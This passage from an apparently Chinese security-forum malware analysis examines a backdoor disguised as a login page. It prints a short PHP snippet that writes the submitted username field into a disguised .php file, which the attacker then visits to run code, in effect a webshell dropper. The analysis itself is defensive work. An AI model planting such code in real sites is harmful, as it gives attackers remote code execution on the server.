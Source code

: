 ```php
.fgtpwd{
    position: absolute;
    margin-bottom: 1000px;
    right: 10px;
    color: #ffffff;
    margin-right:666px;
    font-size: 13px;
}

</style>
</body>
</html>

```

没错，一个登录页面  
BUT！！！！

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-eae93264ef81b4320e2853c289b7d1eda49025cf.png)

```php
<?php 
$SQL = $_POST['usename'];
$myfile = fopen("后台备份文件误删.php", "w") or die("Unable to open file!");
fwrite($myfile, $SQL);
fclose($myfile);
?>
```

在提交这个登录请求以后，会把用户写入一个文件。  
然后你在访问这个文件，你懂得

9x05 总结
=======

因为笔者在上学，没有时间详细分析防火墙日志。我简单的分析了一下这个病毒的伪装，发现他的庐山真面目。  
其实这个涉及的很多后门应该有自我销毁的功能，只是主干被保留方便二次利用罢了。  
希望这个分析对大家有所帮助。